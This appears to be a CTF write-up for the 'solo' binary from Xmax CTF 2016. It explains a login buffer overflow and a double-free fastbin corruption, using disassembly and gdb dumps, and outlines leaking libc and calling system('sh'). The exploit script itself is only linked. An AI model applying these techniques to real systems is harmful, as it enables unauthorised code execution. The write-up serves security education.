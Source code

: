 # 0x0 Introduction
```
┌──[ root Hacked by Hawk1n5 at CTF in ~/CTF/Xmax_ctf_2016/solo ]
└─────> file solo 
solo: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=a4bc7756998eb9c75ac8e3df5041a688f4bde7df, stripped
┌──[ root Hacked by Hawk1n5 at CTF in ~/CTF/Xmax_ctf_2016/solo ]
└─────> checksec solo 
[*] '/root/CTF/Xmax_ctf_2016/solo/solo'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
    FORTIFY:  Enabled
```

This binary have some feature :
```
WELCOME TOOOOOO EASY SERVICE
H4CK TH15 S3RVICE PLZ!!!

1. malloc
2. free
3. list
4. login
5. exit
$ 
```

* malloc
	* ptr = malloc(size)
	* read(0, ptr, size)
* free
	* free(index)
* list
	* do nothing
* login
	* if *0x602080 != 0 
		* read(0, buf, 0x7d0)
* exit
	* quit
		
# 0x1 vulnerbility

## login buffer overflow

In login method,it read size 0x7d0 will let it bof,and overwrite ret address.

but login have a check :

```
  400770:	48 83 3d 08 19 20 00 	cmpq   $0x0,0x201908(%rip)        # 602080 <stdout+0x10>
  400777:	00 
  400778:	74 29                	je     4007a3 <__isoc99_scanf@plt+0x133>
  40077a:	be 2a 0e 40 00       	mov    $0x400e2a,%esi
  40077f:	bf 01 00 00 00       	mov    $0x1,%edi
  400784:	31 c0                	xor    %eax,%eax
  400786:	e8 c5 fe ff ff       	callq  400650 <__printf_chk@plt>
  40078b:	48 8d 74 24 30       	lea    0x30(%rsp),%rsi
  400790:	ba d0 07 00 00       	mov    $0x7d0,%edx
  400795:	31 ff                	xor    %edi,%edi
  400797:	31 c0                	xor    %eax,%eax
  400799:	e8 72 fe ff ff       	callq  400610 <read@plt>
```

0x602080 must big then 0, so we need another vul to overwrite 0x602080, and use this bof to get shell.

## fastbin corruption

In free method, it didn't check your input pointer is free or not.

So,it have double free.

And can use fastbin corruption,control malloc chunk to anywhere

* how to do
	* 1 = malloc(size) 
	* 2 = malloc(size)
	* free(1)
	* free(2)
	* free(1)
		* then fastbin will like this:
	```
	(0x70)     fastbin[5]: 0x603000 --> 0x603070 --> 0x603000 (overlap chunk with 0x603000(freed) )
	```
	* 3 = malloc(size) = 0x603000 # input aaaa
	* 4 = malloc(size) = 0x603070
	* 5 = malloc(size) = 0x603000
	* 6 = malloc(size) = 0x616161 "aaaa"

now, we know how to use this vul,and we need to overwire 0x602080,

but malloc() have a check about fastbin,it will check malloc size and will malloc chunk size is same,

near 0x602080, there have a symbol "stdout" and it high byte is 0x7f, 

```
gdb-peda$ x/10gx 0x602060
0x602060:       0x0000000000000000      0x0000000000000000
0x602070 <stdout>:      0x00007ffff7dd72a0      0x0000000000000000
0x602080:       0x0000000000000000      0x0000000000000000
```

so we use size is 0x70-0x10(size and prev size),

in the 3rd time to malloc write 0x60206d in to heap

and the 6th time to malloc will get 0x60206d because is size(+8) is 0x70 so it can pass malloc check 

```
gdb-peda$ x/2gx 0x60206d
0x60206d:	0xfff7dd72a0000000	0x000000000000007f
```

finally, overflow and leak libc base then call system('sh')

[payload](exp.rb)
